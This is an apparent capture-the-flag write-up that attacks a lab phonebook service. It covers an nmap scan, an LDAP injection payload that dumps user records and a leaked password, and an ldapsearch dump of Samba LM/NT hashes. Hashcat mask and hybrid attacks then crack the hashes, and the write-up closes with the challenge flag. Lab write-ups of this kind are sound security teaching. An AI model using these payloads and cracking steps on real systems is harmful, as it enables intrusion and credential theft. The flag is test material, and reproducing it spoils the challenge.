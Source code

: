 # Phonebook

Hi, packet inspector,

you should already get access to the phone book – as a new employee – but the AI is too busy right now. This condition
can last several ... who knows ... years?

Your task is to gain access to the application running on http://phonebook.mysterious-delivery.tcc:40000.

May the Packet be with you!

---

![](portal.png)

Looking into the web source code, I found the following comments:

```
<!-- New LDAP server host: 10.99.0.121 -->
<!-- 1/2/2022 Temporary search filter (|(&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=_DATA_))(memberof=cn=nonmigrated,ou=groups,dc=local,dc=tcc)) -->
<!-- 6/8/2022 Filter after migration  (|(&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=_DATA_}))) -->
```

Phonebook's IP is `10.99.0.120` so this is a different node. Let's `nmap`:

```
$ nmap -sV 10.99.0.121
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-25 22:13 CEST
Nmap scan report for ldap.mysterious-delivery.tcc (10.99.0.121)
Host is up (0.026s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE VERSION
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.85 seconds
```

Indeed, it seems to be running **LDAP** on `389`.

Next, I tested both LDAP filters. The server responds with `Malformed filter - Try harder;-)`.

Then, I tried to send `*`. Great, it enumerates all the users.

![](users.png)

The filter value seems to be passed into `uid={VALUE}` which corresponds with the filter examples found in the source
code.

Let's try [LDAP injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection).
I got lucky with `*)(uid=*))(|(uid=*`:

![](injection.png)

This is great, we got a couple new users like `admin1`, `admin2` and mainly `ldap_sync` even with the
password `gasg35faCasgt%AF`.

BTW, this is how the payload changes the LDAP filter. Effectively, it becomes just `(uid=*)`:

```
(|
  (&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=*)(uid=*))
  (|(uid=*))
)
```

Next logical step is to use the found user and password and connect to LDAP:

```
ldapsearch -H ldap://10.99.0.121 -x -D "uid=ldap_sync,ou=people,dc=local,dc=tcc" -w 'gasg35faCasgt%AF' -b "DC=local,DC=tcc"

# extended LDIF
#
# LDAPv3
# base <DC=local,DC=tcc> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# local.tcc
dn: dc=local,dc=tcc
objectClass: top
objectClass: dcObject
objectClass: organization
o: nodomain
dc: local

..
```

The full output is in [ldap-dump.txt](ldap-dump.txt).

The file contains Samba passwords.

```
sambaNTPassword: 32644235283BC5561CC7FE4FFFADDAEE
sambaLMPassword: 48448F207404DB05F3BAC3A9216F6D52
```

[LM hash](https://en.wikipedia.org/wiki/LAN_Manager#Password_hashing_algorithm) is pretty weak.
Let's try to crack it with **hashcat**. At first, I grepped all the passwords into a file [LanMan.txt](LanMan.txt).

```
$ hashcat -m 3000 -a 3 LanMan.txt
```

This default strategy quickly cracks 133 out of 134 passwords!

Of course, the only uncracked password is for `admin2` (our web admin).

At least we cracked the first half of the passwords, which is `TOOSTRO` (perhaps "TOO STRONG"?).

To crack the second half, I used a bruteforce attack. Inspired by this question on hashcat forum:
[Unable to crack second half of LM hash ](https://hashcat.net/forum/thread-8771.html):

```
$ hashcat 48448F207404DB05F3BAC3A9216F6D52 -m 3000 -a 3 -1 ?u?d?s ?1?1?1?1?1?1?1
```

It worked! In a couple of minutes, I got the second half `NGPASS.`
So the full password is `TOOSTRONGPASS.`

However, this is not the original password. It's important to understand how LM hashes are generated
> The user’s password is converted to uppercase.

So, the original password might be something like `TooStrongPass.` or any other combination.

I created Python script [find-password.py](../../../../src/main/python/catch22/Phonebook) to enumerate all the
possibilities and find the correct one by comparing against `sambaNTPassword` hash.
I was a bit disappointed when it found no match.

So, what else... Back to LM hash rules. There is one more important:
> The user's password is restricted to a maximum of fourteen characters.

Apparently, the original password might have been longer! How do I recover it? I have the NT hash and I know
how the passwords starts. I'm probably missing only a couple of characters. Let's try
hashcat [Hybrid attack](https://hashcat.net/wiki/doku.php?id=hybrid_attack).

At first, I dumped all the 8192 password prefixes into [passwords.txt](passwords.txt).
Then I ran hashcat, incrementing the number of extra characters:

```
$ hashcat 32644235283BC5561CC7FE4FFFADDAEE -m 1000 -a 6 passworsds.txt ?a?a?a?a
```

After a couple of minutes, the hash was cracked:

```
32644235283bc5561cc7fe4fffaddaee:TooStrongPass.2022
```

Yay! The last step, login on the web as `admin2 / TooStrongPass.2022` and go to Settings:

![](settings.png)

Flag is `FLAG{iLcT-HnNF-egs3-mCSN}`.

This was a very nice (and long) challenge!